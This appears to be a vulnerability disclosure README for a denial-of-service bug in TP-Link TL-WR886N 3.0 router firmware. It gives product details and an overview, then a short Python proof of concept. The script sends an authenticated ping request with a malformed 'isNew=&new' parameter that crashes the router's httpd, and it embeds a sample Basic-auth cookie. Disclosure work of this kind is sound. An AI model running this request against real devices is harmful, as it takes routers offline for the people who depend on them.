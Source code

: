 Vendor of the products:　TP-Link 

Reported by: 　　　　　   zhlu32@126.com

Affected products:　　　WR886N 3.0 1.0.1 Build 150127 Rel.34123n

Vendor Homepage:　　https://www.tp-link.com.cn/

Product Link:　　　　　https://www.tp-link.com.cn/product_397.html

Hardware Link:　　　　https://service.tp-link.com.cn/detail_download_1988.html

# Overview
An issue was discovered on TP-Link TL-WR886N 3.0 1.0.1 devices. Authenticated attackers can crash router **httpd** services via **/userRpm/PingIframeRpm.htm** request which contains redundant & in parameter.

# Vul Details
## Normal Request 
An normal request looks like below.

![avatar](img/normal-request.jpg)
## Malicious Request
An malicious Request which set isNew's value contains & (eg. &new looks like below)

![avatar](img/malicious-request.jpg)
## Attack effect
After send the malicious request, the router's web server go down. Then after reboot the router, we can see a httpd exception log in web page.

![avatar](img/effect.jpg)

# Poc
    #!/usr/bin/env python3
    
    import requests
    
    
    def send_ping_request():
        """
        Replace real host and Authorization
        """
        host = "http://192.168.1.1"
        path = "/userRpm/PingIframeRpm.htm"
        param = "?ping_addr=ww.google.com&doType=ping&isNew=&new&sendNum=4&pSize=64&overTime=800&trHops=20"
        url = host + path + param
    
        referer = "http://192.168.1.1/userRpm/DiagnosticRpm.htm"
        headers = {'Cookie': 'Authorization=Basic%20YWRtaW46MTIzNDU2Nw%3D%3D; ChgPwdSubTag=', 'Referer': referer}
    
        response = requests.get(url=url, headers=headers)
        print(response.text)
    
    
    if __name__ == "__main__":
        send_ping_request()
